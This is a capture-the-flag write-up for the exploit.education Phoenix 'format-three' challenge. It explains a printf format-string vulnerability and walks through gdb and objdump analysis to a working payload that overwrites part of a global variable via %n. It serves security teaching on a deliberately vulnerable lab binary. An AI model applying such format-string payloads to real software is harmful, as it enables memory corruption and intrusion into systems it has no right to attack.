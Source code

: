 # FORMAT THREE (pwn, exploit.education, phoenix, format-string, set address with qword value)

Notes:
- source code given

## Enumeration
### Protections
As in every task in phoenix all protections are disabled (so is alsr):

```bash
$ checksec format-three
[*] './format-three'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

and the file we have to exploit is a 64 bit binary:

```bash
$ file format-three
files/format-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=a490eeb5423b20f15cc5bf98c5e8c1010a129b6c, with debug_info, not stripped
```

### Goal
The goal is obvious, we have to set `changeme` to `0x64457845`.

### Vulnerabilities
The program is vulnerable to format-string attack. It first reads user innput into `buf`:

```c
if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
}
bounce(buf);
```

 and then displays it inside `bounce` function:

 ```c
 void bounce(char *str) {
  printf(str);
}
```

## Exploit
We want to overwrite the value under `0x64457845` (changeme). Printf let's us write to arbitrary location using `%n` type, which sets the value under provided address to number of bytes written so far:

```c
int x;
printf("1234%n", &x); // x will be set to 4
```

Ok, and what if our program looks like:

```c
printf("1234%n"); // what will get overwriten?
```

Well, `printf` doesn't validate the provided arguments. It just assumes they are valid. And how are arguments passed to functions on x86_64? Well, the first 6 arguments are passed respectively in: rdi, rsi, rdx, rcd, r8, r9 registers and the next ones are passed on stack.

So our program will overwrite the address stored under rsi register (as rdi already keeps the `format string` argument).

From [printf man](https://linux.die.net/man/3/printf) page:
```
int printf(const char *format, ...);
```

Ok, but how can we make the program to write to address of our choice? In this case the address of `changeme` variable?
Well, we can use `direct access` parameter which specifies the parameter to use for input. So `printf("1234%8$n")` would overwrite the third (8 - 5) value placed on stack with 0x4. And as our `buf` is also placed on the stack, we can make the program to retrieve the address from the `buf`! And remember, we do control everything inside the `buf`.

That's exactly what we want! Let's try this technique to overwrite the lsb of `changme` variable with 0x45.

First we have to find the address of `changme`. This can be done easly as binary was not compiled as PIE:

```c
objdump --syms format-three | grep changeme
000000000060104c g     O .bss	0000000000000004              changeme
```

Now let's check under gdb what is the offset between the `buf` and the `$rsp` register right before calling `printf`. This will be important!

```gdb
$ gdb -q format-three
gef➤  p &buf
$2 = (char (*)[4096]) 0x7fffffffcd40
$ gef➤  x/10i bounce
   0x4005c7 <bounce>:	push   rbp
   0x4005c8 <bounce+1>:	mov    rbp,rsp
   0x4005cb <bounce+4>:	sub    rsp,0x10
   0x4005cf <bounce+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x4005d3 <bounce+12>:	mov    rax,QWORD PTR [rbp-0x8]
   0x4005d7 <bounce+16>:	mov    rdi,rax
   0x4005da <bounce+19>:	mov    eax,0x0
   0x4005df <bounce+24>:	call   0x4004b0 <printf@plt>
   0x4005e4 <bounce+29>:	nop
   0x4005e5 <bounce+30>:	leave
gef➤ b *0x4005df
gef➤  c
Continuing.
Welcome, brought to you by https://exploit.education
lala
Breakpoint 1, 0x00000000004005df in bounce (str=0x7fffffffcd40 "lala\n") at format3.c:21
21	  printf(str);
gef➤ p $rsp
$2 = (void *) 0x7fffffffcd10
```

So the offset is: 0x7fffffffcd10 - 0x7fffffffcd40 = 48 = 6 * 8

Let's provide `%069x%14$nAAAAAA` + `\x4c\x10\x60\x00\x00\x00\x00\x00` as an input. Note that we had to pad the `format` string with 'A's to align stack address. Moreover we will overwrite the address passed as 14th argument. (14 = 5 + 9)

Our stack to look like this:

![](img/stack0.png)

And the printf is translated to:

```c
printf("%069x%14$nAAAAAA", random address from rsi, 000000000060104c);
```

Meaning that the program will first output some random address from rsi padded to 69 characters and then store value 69 under 000000000060104c.

Let's check if we are correct. Remember to escape '$' sign, as bash thinks it is special character:

```bash
$ python -c "print '%069x%14\$nAAAAAA' + '\x4c\x10\x60\x00\x00\x00\x00\x00'" | ./format-three 
Welcome, brought to you by https://exploit.education
0000000000000000000000000000000000000000000000000000000000000ffffcdc0AAAAAAL`Better luck next time - got 0x00000045, wanted 0x64457845!
```

Ha, well done! We have overwriten a byte of `changeme` variable!
3 more bytes to go, but we can do them in the same way we done the first one.

This is how the stack should look like just before calling printf in final exploit:
![](img/stack1.png)


## References
https://kevinalmansa.github.io/application%20security/Format-Strings/